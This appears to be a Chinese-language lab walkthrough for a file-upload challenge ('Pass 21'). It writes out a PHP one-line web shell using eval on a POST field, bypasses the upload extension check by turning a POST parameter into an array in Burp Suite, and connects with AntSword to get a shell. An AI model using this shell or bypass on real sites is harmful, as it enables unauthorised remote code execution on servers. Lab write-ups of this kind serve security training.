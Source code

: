 

+ 编写脚本<code>TwentyOneSecondMethod.php</code>

~~~ php
<?php
	@eval($_POST['TwentyOne']);
?>
~~~



+ 上传脚本<code>TwentyOneFirstMethod.php</code>到网站并用<code>burpsuite</code>拦截

![Pass21_03](./img/Pass21_03.PNG)

![Pass21_04](./img/Pass21_04.PNG)



+ 修改某些地方

~~~ tex
我们要改的就是下面的地方

修改content-type 
修改POST参数为数组类型，索引[0]为`upload-20.php`，索引[2]为`jpg|png|gif`。
只要第二个索引`不为1`，$file[count($file) - 1]就等价于$file[2-1]，值为空
~~~

![Pass21_05](./img/Pass21_05.PNG)



+ 放包之后成功上传文件

![Pass21_06](./img/Pass21_06.png)



+ 右键打开上传文件的地址并复制地址

![Pass21_07](./img/Pass21_07.png)

![Pass21_08](./img/Pass21_08.png)



+ 蚁剑添加数据并配置，<code>URL地址</code>指之前上传文件的地址，连接密码根据之前编辑的脚本确定

![Pass21_09](./img/Pass21_09.png)



+ 成功配置数据后添加数据成功，双击后成功<code>getshell</code>

![Pass21_10](./img/Pass21_10.PNG)

![Pass21_11](./img/Pass21_11.PNG)
